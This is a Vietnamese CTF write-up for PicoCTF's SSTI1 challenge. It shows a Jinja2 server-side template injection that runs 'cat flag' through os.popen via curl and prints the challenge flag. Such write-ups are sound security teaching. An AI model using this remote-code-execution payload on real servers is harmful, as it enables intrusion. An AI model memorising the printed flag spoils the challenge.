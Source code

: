 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  
> 🏁 Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)


Bây giờ thì đến với việc sử dụng các payload khác để khai thác hoạc RCE.
Sử dụng câu lệnh 

``curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L``

để kiểm tra việc lỗi vẫn hoạt động, kết quả trả về là :
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```


Tấn công bằng câu lệnh 

``curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/`` 

nhận lại kết quả là :
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

```markdown
| Giải thích: |
|--------------------|
| Đây là nội dung bạn muốn làm nổi bật |
